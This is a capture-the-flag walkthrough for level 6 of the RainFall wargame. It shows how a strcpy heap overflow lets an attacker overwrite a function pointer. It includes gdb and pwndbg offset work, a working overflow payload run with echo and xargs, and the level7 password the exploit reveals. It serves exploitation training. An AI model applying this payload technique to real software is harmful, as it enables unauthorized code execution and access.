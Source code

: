 # Walkthrough for Level 6

## Understanding the Binary

The `level6` binary is vulnerable to a heap overflow attack because it uses the unsafe `strcpy` function to copy user
input into a fixed-size `buffer` without checking the input length. This allows us to overwrite adjacent memory. There
is a `function_pointer` that is initialized to point to the `m` function. There is also an `n` function that reads
level7's password, but this function is never called directly. Since the `buffer` and the `function_pointer` are
allocated sequentially, we can assume they are adjacent in memory. Therefore, if we overflow the `buffer`, we can
overwrite the `function_pointer` to point to the `n` function. When the program calls the function pointer, it will
execute the `n` function instead of the `m` function.

## The address of the `n` function

```shell
┌──(kali㉿kali)-[~/rainfall/level6]
└─$ nm ./level6 | grep "T n"
08048454 T n
```

In little-endian, this address becomes `\x54\x84\x04\x08`.

## Calculating the offset

To find the number of characters that we need to write to reach the `function_pointer`, we will use the same technique
as in [level2](../level2/walkthrough.md). First, we create a long cyclic pattern of 171 characters using
[pwndbg](https://github.com/pwndbg/pwndbg):

```shell
pwndbg> cyclic 171
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraa
```

We run the binary within `gdb` and pass the cyclic pattern as a parameter:

```shell
level6@RainFall:~$ gdb ./level6 
...SNIP...
Starting program: /home/user/level6/level6 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraa

Program received signal SIGSEGV, Segmentation fault.
0x61616173 in ?? ()

```
We can see that the program crashes with a segmentation fault as it tries to access the invalid address `0x61616173`. 
Converting this address to big endian gives us `0x73616161`, which corresponds to the string `saaa`. This means that
part of the cyclic pattern is stored in the `buffer` variable.

Using the `cyclic -l` command, we can find the offset in the cyclic pattern that corresponds to this value. In this
case, the offset is 72 bytes.

```shell
pwndbg> cyclic -l saaa
Finding cyclic pattern of 4 bytes: b'saaa' (hex: 0x73616161)
Found at offset 72
```

## Crafting the Exploit

Our exploit will consist of 72 characters of padding followed by the address of the `n` function in little-endian format.

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x54\x84\x04\x08

## Running the exploit against the binary

We use the `-e` option of `echo` to interpret escape sequences like `\x` for hexadecimal values, which allows us to pass
the address of the `n` function. We also use `xargs` to pass the exploit as input to the `level6` binary.

```shell
level6@RainFall:~$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x54\x84\x04\x08' | xargs ./level6 
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

This gives us the password for `level7`, which can be used to log in via ssh.

